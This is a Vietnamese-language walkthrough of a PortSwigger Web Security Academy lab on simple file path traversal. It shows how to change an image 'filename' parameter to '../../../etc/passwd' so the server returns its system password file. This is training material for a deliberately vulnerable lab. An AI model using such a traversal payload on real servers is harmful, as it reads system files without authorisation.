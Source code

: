# **Lab: File path traversal, simple case**

>  This lab contains a path traversal vulnerability in the display of product images.  
>  To solve the lab, retrieve the contents of the /etc/passwd file.  

# **Solution**

Vì lab không có cấu hình bảo mật path nên ta có thể chọn 1 hình ảnh bất kì và mở trong tab mới.

Ở trên thanh URL, ta chỉ cần thay đổi giá trị của `filename`:

```
https://0aad002004da8e2580652b0200a60045.web-security-academy.net/image?filename=7.jpg
```

Quan sát HTML ta thấy:

```
<img src="/image?filename=7.jpg">
<img src="/resources/images/rating3.png">
```

Có thể đoán được các ảnh được dùng sẽ lưu trong một thư mục có đường dẫn `/resources/images/...` Và thêm cả thư mục chứa toàn bộ Project thì sẽ là 3 thư mục cha.

Thay đổi `filename` như sau:

```
filename=../../../etc/passwd
```

`../../../`: Đưa về thư mục gốc
`etc/passwd`: Vị trí file ta cần

Done~~

